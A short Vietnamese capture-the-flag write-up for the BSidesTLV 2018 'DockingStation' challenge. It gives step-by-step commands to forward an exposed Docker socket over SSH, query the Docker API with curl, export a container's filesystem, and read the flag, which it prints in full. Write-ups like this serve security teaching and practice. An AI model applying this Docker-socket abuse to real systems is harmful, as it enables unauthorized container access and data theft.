 Chạy command có trên description của challenge (lưu ý bỏ phần password và nếu web bị lỗi thì chuyển qua IP) <br/>
Chạy <code> ls -la</code><br/>
Mở một terminal khác, chạy lệnh sau <code>ssh bsidestlv@challenges.bsidestlv.com -p 2222 -NL localhost:3000:/app/docker.sock -f</code> (pass như trên) <br/>
Chạy <code>curl -s http://localhost:3000/containers/json?all=true</code><br/>
Lúc này sẽ ra một file JSON không dễ nhìn lắm, có thể xem ảnh đẹp của nó tại đây <a href="https://capearso.com/bsidestlv-misc/#dockingstation">Link</a> hoặc <a href="https://jctf.team/BSidesTLV-2018/DockingStation/">đây</a><br/>
Tìm <strong>Id</strong> của cái có <strong>Image</strong> là <code>galf</code> ở gần trường <strong>Port</strong><br/>
Chạy <code>curl -s -o galf.tar http://localhost:3000/containers/&gt id của bạn &lt/export</code><br/>
Giải nén tar bằng lệnh <code> tar -xvf galf.tar</code><br/>
Cờ sẽ nằm ở folder <code>/home/flag_is_here</code><br/>
Cờ là <code>BSidesTLV{i_am_r34dy_t0_esc4p3_th3_d0ck3r!}</code><br/>
